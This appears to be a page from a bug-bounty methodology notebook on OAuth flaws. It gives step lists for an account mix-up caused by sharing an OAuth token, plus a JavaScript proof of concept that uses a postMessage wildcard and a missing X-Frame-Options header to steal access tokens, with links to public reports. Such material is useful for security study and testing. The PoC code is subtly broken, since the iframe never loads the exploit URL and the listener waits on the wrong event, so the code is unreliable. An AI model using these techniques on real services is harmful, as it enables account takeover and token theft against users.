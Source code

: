 ```http
1 - I am logged in with app.com as Account One
2 - I open appservice.com
3 - I get https://api.app.com/oauth/?oauth_token=*****
4 - I did not move forward and shared this link with someone who
is logged in with app.com as Account Two
5 - Account Two grants the permission to the third Party App appservice.com
6 - Account One also grants the permission to the third Party App
appservice.com By Using The Same OAuth Token
7 - I Get Dashboard Of appservice.com of Account Two Not Account One
```

{% embed url="https://hackerone.com/reports/46485" %}

{% embed url="https://infosecwriteups.com/oauth-misconfiguration-leads-to-full-account-takeover-22b032cb6732?source=---------1----------------------------" %}

### Exploit Post Messages

> Try To Use Whitelist Subdomain With Endpoint Contains postMessage(Msg,"\*"); In which Msg = window.location.href.split("#")\[1]; To Steal The Access Token

```http
1 - search About :-
var Msg = window.location.href.split("#")[1];
window.parent.postMessage(Msg,"*");
2 - There Isn't :-
X-Frame-Options Header
3 - Use This POC :-
var exploit_url = 'https://company.com/oauth?client_id=id&redirect_uri=
https://sub.company.com/postMsg.js';
var i = document.createElement('iframe');
document.body.appendChild(i);
window.addEventListener('oauth', function(Token) {alert(Token.data.name);
}, !1);
```

{% embed url="https://www.amolbaikar.com/facebook-oauth-framework-vulnerability/" %}

{% embed url="https://hackerone.com/reports/821896" %}

